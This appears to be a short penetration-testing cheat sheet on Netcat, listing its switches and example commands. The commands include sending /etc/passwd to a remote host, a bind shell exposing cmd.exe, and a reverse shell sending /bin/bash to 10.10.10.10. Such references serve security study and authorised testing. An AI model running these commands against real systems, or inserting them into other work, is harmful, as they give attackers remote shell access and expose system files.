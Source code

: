 # Tools and Reporting
## Tools
### Netcat
#### Switches
Switch | Description
-|- 
-n| Dont do DNS resolution
-v| Verbose Output
-l| Listen
-p| Port 
-e bin | binary to execute after successful connection

#### Connecting to a TCP/UDP port
```bash
nc -nv 10.10.10.10 4444
```
#### Listening on a TCP/UDP port
```bash
nc -nvlp 4444
```
#### Transfering files with Netcat - Download
```bash
nc -nvlp 4444 > download.exe
```
#### Transfering files with Netcat - Upload
```bash
nc -nv 10.10.10.10 4444 < /etc/passwd
```
#### Bind shell with Netcat
```bash
nc -nvlp 4444 -e cmd.exe
```
#### Reverse Shell with Netcat
```bash
nc -nv 10.10.10.10 4444 -e /bin/bash
```